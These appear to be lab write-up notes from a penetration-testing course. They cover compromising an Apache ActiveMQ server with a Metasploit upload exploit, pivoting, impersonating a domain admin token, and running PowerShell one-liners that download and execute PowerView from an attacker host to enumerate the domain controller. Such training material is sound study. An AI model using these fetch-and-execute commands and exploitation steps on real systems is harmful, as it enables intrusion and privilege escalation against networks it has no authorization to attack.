 ### Exploit Apache ActiveMQ
// we found that port 8161 is running Apache ActiveMQ, so I searched For that version in metasploit 
	exploit(multi/http/apache_activemq_upload_jsp)
and got a shell.

// ip discovered: 10.100.11.101

in Meterpreter session:
```powershell
run autoroute -s 10.100.11.0/24
```

### Token Impersonation
use incognito
list_tokens -u
impersonate_token ELS-CHILD\\local_admin

### Sending PowerView to the target
open a web host with python
then send and execute the file:
```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('http://175.13.80.5:8000/PowerView.ps1'); Get-NetDomainController"
```

### Results
```
Forest                     : eLS.local
CurrentTime                : 1/8/2022 11:36:28 PM
HighestCommittedUsn        : 209035
OSVersion                  : Windows Server 2012 R2 Standard
Roles                      : {PdcRole, RidRole, InfrastructureRole}
Domain                     : els-child.eLS.local
IPAddress                  : 10.100.10.253
SiteName                   : Default-First-Site-Name
SyncFromAllServersCallback : 
InboundConnections         : {18be55e6-23fd-4162-ab64-6b2cf34040e5}
OutboundConnections        : {e308ece2-539f-4f7a-9fc2-fee4e5adfd31}
Name                       : child-dc01.els-child.eLS.local
Partitions                 : {CN=Configuration,DC=eLS,DC=local, CN=Schema,CN=Co
                             nfiguration,DC=eLS,DC=local, DC=ForestDnsZones,DC=
                             eLS,DC=local, DC=els-child,DC=eLS,DC=local...}

```

> [+]
// DC
els.child.eLS.local
10.100.10.253

### local_admin is a local administrator of the domain controller
```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('http://175.13.80.5:8000/PowerView.ps1'); Find-LocalAdminAccess"
```
